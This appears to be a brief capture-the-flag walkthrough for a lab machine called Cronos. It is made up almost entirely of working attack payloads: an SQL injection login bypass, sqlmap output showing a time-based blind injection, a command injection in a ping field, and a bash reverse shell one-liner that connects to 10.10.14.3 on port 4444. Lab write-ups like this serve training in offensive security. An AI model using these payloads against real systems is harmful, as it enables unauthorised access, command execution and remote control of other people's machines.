


# authentication bypass
Use username `admin' or 1=1-- ` to log in


## login request
```
POST /index.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://admin.cronos.htb
Connection: close
Referer: http://admin.cronos.htb/index.php
Cookie: PHPSESSID=k0vh24q7j8ibnucuqip9ktgbv2
Upgrade-Insecure-Requests: 1

username=asdf&password=asdf
```

## sqlmap
```
sqlmap identified the following injection point(s) with a total of 76 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=asdf' AND (SELECT 5089 FROM (SELECT(SLEEP(5)))HUkL) AND 'maAs'='maAs&password=asdf
---
```


# ping command injection
`127.0.0.1; id`



## Reverse shell
`127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'`

